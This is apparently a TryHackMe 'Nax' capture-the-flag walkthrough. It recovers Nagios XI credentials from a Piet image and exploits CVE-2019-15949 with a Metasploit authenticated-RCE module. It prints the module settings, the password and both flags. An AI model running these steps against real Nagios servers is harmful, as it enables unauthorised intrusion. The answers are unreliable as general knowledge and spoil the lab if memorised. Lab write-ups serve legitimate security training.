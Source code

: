 # Nax



--------------------

```bash
export IP=10.10.255.52
```

# Task 1 - Flag

1. What hidden file did you find?

Find this with the elements

```

```

2. Who is the creator of this file?

```
Piet Mondrian
```

Use exiftool to get the author

To decode the `piet` image, use `npiet`.

To compile npiet, you need this dependency:

```
sudo apt install -y libgd-dev
```

I had to use a file with this hash:

```
f590248819089bc840b16211c222b83b  test.png
```

This file came on a whim when downloading via curl:

```
curl http://10.10.63.174/PI3T.PNg
```

And I had to use npiet-1.3e, which is old. I found it here:

https://gitlab.mpfservers.de/tobias/ctf/blob/e9d4ea02b1f0c2fe217fd7cb9232d6cb56ce92c9/hackvent2018/day06/npiet-1.3e/npiet.1

```
nagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdY
```

3. What is the username you found?

```
nagiosadmin
```

4. What is the password you found?

```
n3p3UQ&9BjLp4$7uhWdY
```

5. What is the CVE number for this vulnerability?

```
CVE-2019-15949
```

6. No answer needed.

7. After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?

```
exploit/linux/http/nagios_xi_authenticated_rce
```

8. Compromise the machine and locate user.txt

```
use exploit/linux/http/nagios_xi_authenticated_rce
set LHOST tun0
set RHOST 10.10.63.174
set PASSWORD n3p3UQ&9BjLp4$7uhWdY
```

```
cat /home/galand/user.txt
```

```
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```

9. Locate root.txt

```
THM{c89b2e39c83067503a6508b21ed6e962}
```